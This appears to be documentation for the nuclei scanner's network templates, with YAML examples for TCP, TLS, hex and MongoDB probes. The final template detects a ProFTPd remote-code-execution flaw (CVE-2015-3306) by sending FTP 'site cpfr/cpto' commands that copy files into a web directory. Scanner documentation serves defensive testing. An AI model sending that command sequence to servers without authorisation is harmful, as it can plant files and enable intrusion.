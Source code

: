 ```yaml
---
title: "Network"
---
```


## Basic Network Request

This template connects to a network service, sends some data and reads 4 bytes from the response. Matchers are run to identify valid response, which in this case is `PONG`.

```yaml
id: basic-network-request

info:
  name: Basic Network Request
  author: pdteam
  severity: info

tcp:
  - host: 
      - "{{Endpoint}}"
    inputs:
      - data: "PING\r\n"
    read-size: 4
    matchers:
      - type: word
        part: data
        words:
          - "PONG"
```

## TLS Network Request

Similar to the above template, but the connection to the service is done with TLS enabled.

```yaml
id: basic-tls-network-request

info:
  name: Basic TLS Network Request
  author: pdteam
  severity: info

tcp:
  - host: 
      - "tls://{{Endpoint}}"
    inputs:
      - data: "PING\r\n"
    read-size: 4
    matchers:
      - type: word
        part: data
        words:
          - "PONG"
```

## Hex Input Request

This template connects to a network service, sends some data encoded in hexadecimal to the server and reads 4 bytes from the response. Matchers are run to identify valid response, which in this case is `PONG`. The match words here are encoded in Hexadecimal, using `encoding: hex` option of matchers.

```yaml
id: hex-network-request

info:
  name: Hex Input Network Request
  author: pdteam
  severity: info

tcp:
  - host: 
      - "{{Endpoint}}"
    inputs:
      - data: "50494e47"
        type: hex
      - data: "\r\n"
        
    read-size: 4
    matchers:
      - type: word
        part: data
        encoding: hex
        words:
          - "504f4e47"
```

## Input Expressions

Inputs specified in network also support DSL Helper Expressions, so you can create your own complex inputs using variety of nuclei helper functions. The below template is an example of using `hex_decode` function to send decoded input over wire.

```yaml
id: input-expressions-mongodb-detect

info:
  name: Input Expression MongoDB Detection
  author: pd-team
  severity: info
  reference: https://github.com/orleven/Tentacle

tcp:
  - inputs:
      - data: "{{hex_decode('3a000000a741000000000000d40700000000000061646d696e2e24636d640000000000ffffffff130000001069736d6173746572000100000000')}}"
    host:
      - "{{Endpoint}}"
    read-size: 2048
    matchers:
      - type: word
        words:
          - "logicalSessionTimeout"
          - "localTime"
```

## Multi-Step Requests

This last example is an RCE in proFTPd which, if vulnerable, allows placing arbitrary files in any directory on the server. The detection process involves a random string on each nuclei run using `{{randstr}}`, and sending multiple lines of FTP input to the vulnerable server. At the end, a successful match is detected with the presence of `Copy successful` in the response.

```yaml
id: CVE-2015-3306

info:
  name: ProFTPd RCE
  author: pd-team
  severity: high
  reference: https://github.com/t0kx/exploit-CVE-2015-3306
  tags: cve,cve2015,ftp,rce

tcp:
  - inputs:
      - data: "site cpfr /proc/self/cmdline\r\n"
        read: 1024
      - data: "site cpto /tmp/.{{randstr}}\r\n"
        read: 1024
      - data: "site cpfr /tmp/.{{randstr}}\r\n"
        read: 1024
      - data: "site cpto /var/www/html/{{randstr}}\r\n"
    host:
      - "{{Endpoint}}"
    read-size: 1024
    matchers:
      - type: word
        words:
          - "Copy successful" 
```